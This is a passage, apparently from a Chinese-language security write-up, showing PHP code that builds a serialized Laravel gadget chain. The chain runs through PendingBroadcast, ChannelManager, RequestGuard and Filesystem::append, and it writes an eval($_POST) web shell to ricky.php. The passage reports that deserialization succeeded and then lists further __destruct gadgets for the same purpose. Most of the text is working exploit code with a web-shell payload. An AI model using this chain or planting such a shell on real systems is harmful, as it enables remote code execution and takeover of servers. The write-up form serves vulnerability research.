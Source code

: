 ```
    `}`
`}`

namespace Illuminate\Filesystem `{`
    class Filesystem`{`
        public $path = 'ricky.php';
        public $data = '&lt;?php eval($_POST[ricky]);?&gt;';
    `}`
`}`

namespace Illuminate\Auth `{`
    class RequestGuard `{`
        protected $user;
        protected $callback;
        protected $request = 'ricky.php';
        protected $provider = '&lt;?php eval($_POST[ricky]);?&gt;';
        public function __construct($callback) `{`
            $this-&gt;callback = $callback;
        `}`
    `}`
`}`

namespace `{`

    use Illuminate\Auth\RequestGuard;
    use Illuminate\Filesystem\Filesystem;
    use Illuminate\Notifications\ChannelManager;
    use Illuminate\Broadcasting\PendingBroadcast;

    $c = new RequestGuard([new Filesystem(), 'append']);
    $b = new ChannelManager('call_user_func', [$c, 'user']);
    $a = new PendingBroadcast($b);
    echo urlencode(serialize($a));
`}`
```

反序列化成功

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0123f7fd64aa7a1241.png)

**补充:** 全局搜索 `__destruct()` 来找到新的可以触发 `__call` 函数的点, 于是找到了有三个类好用

```
# PendingResourceRegistration
    public function __destruct()
    `{`
        if (! $this-&gt;registered) `{`
            $this-&gt;register();
        `}`
    `}`
# CollectionConfigurator
    public function __destruct()
    `{`
        if (null === $this-&gt;prefixes) `{`
            $this-&gt;collection-&gt;addPrefix($this-&gt;route-&gt;getPath());
        `}`
        if (null !== $this-&gt;host) `{`
            $this-&gt;addHost($this-&gt;collection, $this-&gt;host);
        `}`

        $this-&gt;parent-&gt;addCollection($this-&gt;collection);
    `}`
# ImportConfigurator
```